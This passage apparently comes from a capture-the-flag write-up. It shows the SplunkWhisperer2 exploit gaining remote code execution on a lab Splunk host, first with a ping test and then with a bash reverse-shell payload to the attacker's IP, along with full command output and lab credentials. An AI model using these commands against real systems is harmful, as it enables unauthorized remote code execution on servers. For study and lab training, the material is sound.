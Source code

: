 ### POC

I ran `git clone https://github.com/cnotin/SplunkWhisperer2.git` to get a copy of the repo locally, and then decided to try the exploit with a simple `ping` to test it. I started `tcpdump`, and then ran the exploit:

```

root@kali:/opt/SplunkWhisperer2/PySplunkWhisperer2# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.6"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpwvtxfq84.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.6:8181/
10.10.10.209 - - [01/Nov/2020 06:15:40] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

```

At `tcpdump`, I got pinged:

```

root@kali# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
06:15:40.494671 IP 10.10.10.209 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
06:15:40.494729 IP 10.10.14.6 > 10.10.10.209: ICMP echo reply, id 1, seq 1, length 64

```

I hit enter in the exploit window and it cleaned up.

### Shell

Now I’ll start `nc` and change the payload from `ping` to a reverse shell:

```

root@kali:/opt/SplunkWhisperer2/PySplunkWhisperer2# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpceoe88rl.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.6:8181/
10.10.10.209 - - [01/Nov/2020 06:17:57] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!

```
